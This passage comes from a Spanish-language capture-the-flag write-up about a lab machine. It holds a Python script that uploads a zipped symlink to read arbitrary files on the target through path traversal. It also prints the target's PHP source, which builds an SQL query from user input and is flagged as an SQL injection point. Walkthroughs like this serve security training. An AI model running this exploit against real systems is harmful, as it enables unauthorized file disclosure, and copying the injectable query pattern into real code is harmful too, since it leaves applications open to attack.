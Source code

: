 ```python
    }
    files = {
        'zipFile': ('test.zip', open('test.zip', 'rb'), 'application/zip'),
        'submit': (None, '')
    }
    response = requests.post(url, headers=headers, files=files).text
    path_upload = re.findall(r'<a href="(.*?)">',response)[1]
#    breakpoint()
    url_path_lfi = "http://10.10.11.229/"+path_upload
    print(requests.get(url_path_lfi).text)
    comando3 = ["rm","-r","simple.pdf","test.zip"]
    subprocess.run(comando3,check=True)

def upload_file_zip():
    file_lfi = sys.argv[1]
    comando1 = ["ln", "-s", "../../../../../../../../../../../..%s"%file_lfi, "simple.pdf"]
    subprocess.run(comando1, check=True)
    comando2 = ["zip", "--symlinks", "test.zip", "simple.pdf"]
    subprocess.run(comando2, check=True)


if __name__ == '__main__':
    upload_file_zip()
    upload_file()
```

### Inyección SQL

Al examinar los distintos archivos web, podemos analizar una potencial ejecución de comandos SQL(Inyección SQL).

```php

➜  exploit python3 upload_file.py /var/www/html/shop/product.php
  adding: simple.pdf (stored 0%)
<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>

<?=template_header('Zipping | Product')?>

<div class="product content-wrapper">
```